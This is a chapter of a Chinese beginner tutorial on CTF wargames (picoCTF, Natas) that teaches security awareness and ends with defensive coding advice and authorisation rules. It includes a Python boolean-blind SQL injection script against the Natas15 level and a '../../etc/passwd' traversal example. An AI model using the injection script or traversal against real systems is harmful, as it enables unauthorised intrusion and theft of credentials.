


# 第10章：picoCTF 与 Natas——安全闯关与毕业典礼

> [!TIP] Part 4: 进阶挑战篇
> 全书最后一章是一次毕业考验：换上攻击者的眼镜，把前九章学到的每一件装备都再用一遍——这一次的目标不是「做出功能」，而是「攻破防线」，然后带着安全意识毕业。

给整套教程收尾，没有比安全更合适的主题：它把终端（Bandit）、命令行（tr、curl）、正则、SQL、HTTP 全部串成一条线，而且**它本身就是游戏化的**——CTF（Capture The Flag，夺旗赛）是安全圈几十年的传统玩法，每一关藏着一面 flag（形如 `picoCTF{...}` 的字符串），找到它、提交它、进入下一关。结构与 Bandit 一模一样，只是战场从终端搬到了「别人的系统」。

安全还有一个别的领域没有的特点：**它是少数「学的时候就有真实回报」的技能**——你今天理解的一个漏洞模式，可能就是明年某个线上事故的预防针。带着这份功利心进入本章，一点也不丢人。

## 10.1 CTF：黑客的夺旗赛

CTF 题目按技能域分类，一个赛题平台通常覆盖这几大类：

| 类型 | 内容 | 对应真实技能 |
| ---- | ---- | ---- |
| General Skills | 命令行、文件、编码基础 | Linux 基本功 |
| Cryptography | 古典密码到现代加密 | 密码学直觉 |
| Forensics | 从文件、图片、流量包里挖线索 | 数据取证 |
| Web | 从网页与服务器漏洞拿 flag | Web 安全 |
| Reverse Engineering | 逆向二进制程序理解其逻辑 | 逆向分析 |
| Binary Exploitation | 利用内存漏洞控制程序 | 漏洞利用（进阶） |

新手进场的标准平台是 **picoCTF**（picoctf.org）：卡内基梅隆大学（CMU）主办，原本面向中学生，因此题目阶梯极缓、讲解友好，且**免费**——正赛每年春天一届，而 picoGym 练习场**常年开放**，往届题目随时可刷。

CTF 的竞赛形式也顺带一提：主流是 **Jeopardy 解题赛**（就是本教程讨论的形态，各题独立、按分制排名）；进阶玩法是 **攻防对抗赛**（Attack-Defense），每队守一台自己的服务器、同时攻击别队的，实时掉分——那是安全圈的王者荣耀，等 General Skills 刷满再来。对它的分类地图先有个概念：



对读完本教程的你来说，General Skills 区几乎是白送：那些题就是「给一个文件，用 `cat` 打开拿 flag」「给一个 Base64 串，解码」——第1章 Bandit 的肌肉直接可用。

## 10.2 picoCTF 起步路线：前二十题怎么刷

注册后进入 picoGym，推荐按这个顺序推进。顺序设计的逻辑是「先复健、再扩张」：用最熟悉的终端技能开胃，逐步走向浏览器与二进制的新大陆：

```text
  第一格  General Skills   →  命令行热身，捡 Bandit 的手感
     ↓
  第二格  Cryptography     →  古典密码，练编码眼力
     ↓
  第三格  Forensics        →  file、strings、十六进制查看
     ↓
  第四格  Web Exploitation →  浏览器开发者工具上场
     ↓
  之后    按兴趣进入 Reverse / Pwn（需要 C 与汇编基础，可先缓一缓）
```

看两道真实风格的入门题感受节奏。第一类「文件就是答案」：题目给你一个文件，用 `file` 看类型、用对应方式打开：

```bash
$ file flag
flag: ASCII text
$ cat flag
picoCTF{s4n1ty_ch3ck_XXXXXXXX}   # 这就是 flag，复制去提交
```

第二类「编码变形」：题目给一串看似乱码的字符，识别出编码（Base64 的特征是大小写字母加数字结尾常有 `=`），解码还原：

```bash
$ echo "cGljb0NURntiYXNlNjRfaXNfbm90X2VuY3J5cHRpb259" | base64 -d
picoCTF{base64_is_not_encryption}
```

注意这条 flag 的内容本身就在教学：**Base64 是编码不是加密**——它没有密钥，人人可解。区分「编码（encoding，为了传输）」与「加密（encryption，为了保密）」是安全素养的第一课，picoCTF 把它藏进 flag 里，比教科书优雅。

第三类「网络交互」：题目只说「连接这个端口，听它说什么」，用的是第2章 Bandit 教过的 `nc`：

```bash
$ nc <题目主机> <端口>
用万用表的耐心听完整段输出，flag 就藏在最后一行——
第1章的 30 分钟规则在这里同样适用：读不全就再连一次。
```

三类型的共同点值得点破：**它们全部是第1-3章技能的换皮**。file 与 strings 是第1章第 4 关的 `file` 命令，base64 -d 是第2章第 10 关的 base64，nc 是第2章第 13 关的 nc——你在终端闯关时流过的汗，在这里连本带利地还给你。

> [!NOTE] 提交与积分机制
> picoCTF 的 flag 是大小写敏感的完整字符串 `picoCTF{...}`，每题按难度给分（100-500 分），picoGym 刷题实时计分。个人主页的积分曲线和排行榜就是你的成长记录——和第7章的百分位直方图一脉相承：**看得见的进步，才是能坚持的进步**。

## 10.3 密码学入门题：从 ROT13 开始

Cryptography 区的起点是古典密码，最经典的是凯撒密码（Caesar cipher）的特例 ROT13：字母表整体右移 13 位，A 变 N、B 变 O。加密和解密是同一个操作（13 + 13 = 26 转一圈回来），而破解它只需要第2章学过的 `tr`：

```bash
$ echo "cvpbPGS{f1zcy3}" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
picoCTF{s1mpl3}
```

`tr 'A-Za-z' 'N-ZA-Mn-za-m'` 这行值得逐字符读懂：源集合是 52 个字母，目标集合是「N 开头转一圈到 M」——恰好把每个字母替换成 13 位之后的它。**玩过 Bandit 第 10 关（`tr a-z` 大小写翻转）的人，这一关是复健**。

古典密码题的谱系往后是：

| 密码 | 特征 | 破解思路 |
| ---- | ---- | ---- |
| ROT13 / 凯撒 | 字母整体位移 | 位移只有 25 种，全部试一遍 |
| 摩斯电码 | 点划符号 | 查表即可 |
| 维吉尼亚 | 多表位移，密钥是一个词 | 先猜密钥长度（重合指数），再逐列当凯撒破 |
| 异或（XOR） | 与密钥逐字节异或 | 已知明文攻击、单字节暴力 |

刷这一区的收获不在「会破密码」，而在一个安全世界观：**自己发明的密码方案几乎必然是错的**——上面每一行的发明者当年都以为坚不可摧。这份世界观会阻止你未来在项目里「顺手写个加密函数」。

这一区的天花板也很清楚：现代密码学题（AES、RSA、哈希碰撞）需要相当的数学积累，不是本教程的射程。玩到维吉尼亚、看懂 XOR 就可以光荣转场——留给未来的自己一条支线，比硬啃体验好。

## 10.4 OverTheWire Natas：Web 版 Bandit

CTF 拼图式的题目之外，还有一条闯关式的路：OverTheWire 的 **Natas**（natas.labs.overthewire.org）。它的结构与 Bandit 完全同构——33 个层级（natas0 到 natas33），每层的目标就是找到下一层的密码，只是战场从终端换成了 **Web 服务器**。入场方式沿用 Bandit 的仪式：

```bash
$ curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org/
# -u 用户名:密码 是 HTTP Basic 认证；natas0 的密码官方就是 natas0
```

页面打开后，第一课立刻开始：查看网页源代码，下一层的密码就写在 HTML 注释里——**别把秘密放前端**。这个第一课在真实世界的对应物触目惊心：源码里的 API 密钥、注释掉的调试接口、「暂时」写死的数据库密码，全都是 NATAS 第 0 关级别的失误。

之后的关卡依次教你查看 HTTP 响应头（`curl -i` 把头和 body 一起拿回来）、读懂 Cookie（浏览器 DevTools 的 Application 面板里明文躺着的东西，服务器竟然信它）、发现目录穿越（`../../etc/passwd` 式的路径把戏）——每一关都对应一个真实漏洞家族的婴儿版。Natas 的关卡按漏洞类型排布，前中段路线：

| 阶段 | 关卡（约） | 主题 | 用到的知识 |
| ---- | ---- | ---- | ---- |
| 起步 | 0-5 | 源码注释、HTTP 头、Cookie | 浏览器 DevTools、curl |
| 进阶 | 6-10 | 文件包含、路径穿越、编码 | 服务器目录结构、正则 |
| 关键 | 11-15 | 加密误用、**SQL 注入** | 第6章的 SQL 全部回来复习 |
| 深水区 | 16+ | 布尔盲注、命令注入 | 脚本自动化、耐心 |

其中第 15 关（布尔盲注，Boolean-based blind SQL injection）是全系列的成名关卡：页面只回答用户名「存在/不存在」，你却要靠这一个比特的信息，把密码**一个字符一个字符地猜出来**。信息流画出来是这样的：

```text
  你: 「密码以 p 开头吗？」 ──注入──> 服务器
                                      │ 查询结果只回一个比特
  你: 「……以 pi 开头吗？」 <──不存在/存在──
           ↑
     每问一次前进一个字符，32 位密码问几百次

  「不存在」与「存在」的唯一区别，就是页面上那一个词——
  所以叫「盲注」：看不见数据，只能靠回声摸出全貌。
```

思路用脚本表达：

```python
import requests

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""
for pos in range(32):                     # 密码共 32 位
    for c in charset:
        payload = f'natas16" AND password LIKE BINARY "{password}{c}%'
        # 构造注入：让查询变成「第 pos 位等于 c 时返回存在」
        r = requests.get(url, auth=("natas15", pw), params={"username": payload})
        if "exists" in r.text:            # 这个字符猜对了
            password += c
            break
```

这个脚本综合了本教程的多件装备：HTTP 请求（第2章的 curl 换成了 requests）、字符串处理（第5章的正则眼力）、SQL 的 LIKE 与通配符（第6章）、以及第1章就教过的**循环加穷举的耐心**。跑完它，你对「SQL 注入为什么危险」的理解会比读十篇文章都深——因为你刚刚亲手当了一次攻击者。

Natas 后半段（16 关以后）难度会明显上台阶，命令注入、会话伪造接连登场——如果你在 15 关玩得津津有味，说明安全这条路值得继续；如果只是想建立安全意识，玩到 15 关就可以光荣毕业，带着 10.5 节那张攻防对照表回日常代码里去。

## 10.5 红线与硬币：攻守一体的安全观

学攻击技术之前，先立规矩。这一章的所有练习**只能在授权靶场进行**——picoCTF、Natas、Bandit 以及各 CTF 平台的题目环境都是主办方明确授权你攻击的沙盒，这让你可以放开手脚；而对任何未授权的系统（哪怕「只是看看」）做扫描、注入、爆破，在大多数国家都是犯罪行为。

> [!WARNING] 三条不可逾越的红线
> 一、**只打靶场**：本章全部技术在真实系统上的未授权使用是违法行为，没有例外。二、**不碰生产**：公司测试环境也要拿到书面授权再动手。三、**不分享攻击成果**：靶场的通关笔记可以写，但别人系统的漏洞即使「善意发现」也要走漏洞报告流程，而不是贴在博客里。安全圈的名言：The difference between security research and crime is authorization——研究与犯罪只隔着「授权」两个字。

立完规矩说回报。**每学会一种攻击，就同时学会一种防御**——这正是安全学习的复利所在。安全行业自己也这么分工：红队（Red Team）负责攻击视角找漏洞，蓝队（Blue Team）负责防御视角堵漏洞，而优秀的工程师两副眼镜都要有——**只用蓝队视角写代码，你不知道自己在防什么；加一副红队眼镜，你才知道怎么防**。

举一个最日常的例子收拢这个视角：写一个「按用户名查订单」的接口。没戴红队眼镜的写法是把用户名直接拼进 SQL 字符串——功能正确、测试通过、上线三个月后成为 Natas 第 15 关的翻版现场。戴了红队眼镜的人会在拼 SQL 的那一刻停手，换成参数化查询——**安全不是额外的工序，是写代码时的第二双眼睛**。

| 你刚学会的攻击 | 系统该怎么防 | 对应的日常写法 |
| ---- | ---- | ---- |
| SQL 注入 | 参数化查询，绝不拼接 SQL | 用占位符 `?` 或 ORM |
| HTML 注入（XSS） | 输出转义、内容安全策略 | 模板默认转义，慎用 raw HTML |
| 源码泄露（Natas 0 课） | 秘密只放服务端 | 密钥进环境变量，绝不进前端 |
| 弱口令与爆破 | 强密码、限速、多因素 | 用密码管理器，登录接口加限流 |
| Base64 当密码用 | 编码不等于加密 | 敏感数据用真正的加密库 |

把这张表贴在工位上，它就是「安全意识」的实体形态。写后端的人学一点攻击，本质是给未来的自己省下事故电话——这个视角的转换，是本章送给你的毕业礼物。

如果读完这节意犹未尽，安全是一条值得深耕的正式方向：OWASP Top 10、Web 安全 academy（PortSwigger 出品的 Web Security Academy 免费）、以及每年的 CTF 赛事——它们是本章的大学部。本教程只负责把你送到门口，门后面的世界由你自己选择要不要进。

## 10.6 毕业典礼：装备清点与下一程

全书至此，把第0章承诺的特工晋级主线收个尾。十走过的路，一张图回顾：



对照第0章的心流公式做最后一次复盘——这一路能走通，靠的不是意志力，而是结构：

1. **挑战递进**：Bandit 第 0 关只需敲一条 ssh 命令，Natas 15 关需要写盲注脚本——难度曲线全程平缓爬升，没有悬崖。
2. **即时反馈**：flag 出现的那一秒、电梯门关闭的那一瞬、直方图上移动的那一格——每个动作都有回声。
3. **渐进关卡**：34 关的 Bandit、15 关的电梯、25 天的 AoC——大目标全部被拆成「今天够得着」的小格子。

再重申三条贯穿全书的纪律，它们比任何一款游戏都值钱：**卡住 30 分钟就换路或求助**（心流通道不养死磕）；**危险操作先预演**（先 `--print` 再 `-delete`，先备份分支再 reset）；**只在授权环境施展攻击技术**（第10.5 节的三条红线）。

毕业不是结束，而是装备库的移交仪式。你的新装备各自通往本站的更深处：

- 终端手感 → [《Linux 命令行完全教程》](/linux-command/ch00)
- 分支与指针 → [《Git 与 SSH 完全教程》](/git-ssh/ch00)
- 查询与数据 → [《MySQL 完全教程》](/mysql/ch00)、[《SQLite 教程》](/sqlite/ch01)
- 事件驱动与回调 → [《NodeJS 教程》](/nodejs/ch01)
- 正则与脚本 → [《Python 教程》](/python/ch00)
- 芯片与底层 → [《Rust 编程语言教程》](/rust/ch01)
- 架构与设计 → [《软件架构完全教程》](/architecture/ch00)
- 网页性能与工程化 → [《网页性能优化实战教程》](/optimization/)

移交之前，做最后一次毕业自查——下面每一项都是前面某章的产出，勾不上的回去补课：

```text
  [ ] 能用 ssh 免密登录一台远程主机（第1、2章 + Git 教程第4章）
  [ ] 能解释分支为什么是指针，并画出 rebase 前后的图（第8章）
  [ ] 能写出一个带捕获分组的正则并用 grep -E 使用它（第5章）
  [ ] 能用一条 JOIN + GROUP BY 的查询回答一个业务问题（第6章）
  [ ] 能说出 HRM 地毯、TIS 节点、电梯回调各自对应什么真实概念（第7章）
  [ ] 有一个正在进行的 25 天节奏计划（第9章的 AoC 或自选项目）
  [ ] 记得三条红线，并且知道为什么（本章）
```

这套教程从「一条 ssh 命令」开始，到「一面 flag」结束。它真正想教会你的只有一件事——**编程的每一层难度，都存在一个游戏化的入口**；当你下次面对陌生的技术领域感到畏惧时，别硬啃文档，先找找它的「第 0 关」在哪里。祝你永远保持游戏心态，也永远记得三条纪律。旅途愉快，特工。

## 本章小结

- CTF 夺旗赛把安全技能分成六大类，picoCTF 以极缓的难度阶梯与常年开放的 picoGym 成为新手标准入口。
- General Skills 区是 Bandit 的复健场：file、cat、base64、grep 直接上手；Base64 是编码不是加密，这个区分是安全素养第一课。
- ROT13 用一条 `tr` 破解——第2章学的命令在第10章原样复用，工具会说话。
- Natas 是 Web 版 Bandit：同构的 33 层闯关，从源码注释一路走到布尔盲注。
- 布尔盲注脚本综合了 HTTP、字符串处理、SQL 通配符与穷举耐心——亲手当一次攻击者，胜过读十篇安全文章。
- 每种攻击对应一种防御：参数化查询、输出转义、秘密服务端化、限流与多因素——这张攻防对照表值得贴在工位上。
- 三条红线不可逾越：只打靶场、不碰生产、不分享攻击成果——研究与犯罪只隔着授权两个字。
- 攻防一体：红队眼镜找漏洞、蓝队眼镜堵漏洞，优秀的工程师两副都戴。
- 全书的结构答案：挑战递进、即时反馈、渐进关卡——难度曲线设计得当，学任何东西都可以像游戏一样走完全程。
- 三类入门题全是旧技能换皮：file 与 strings 是 Bandit 的老朋友，base64 -d 是第10关的复健，nc 更是直接搬来用。
- 面对陌生技术先找「第 0 关」——游戏化入口的存在，是本教程想留给你的思维 reflex。

**结束语**：愿你在每一个陌生领域，都先找到它的第 0 关。

---
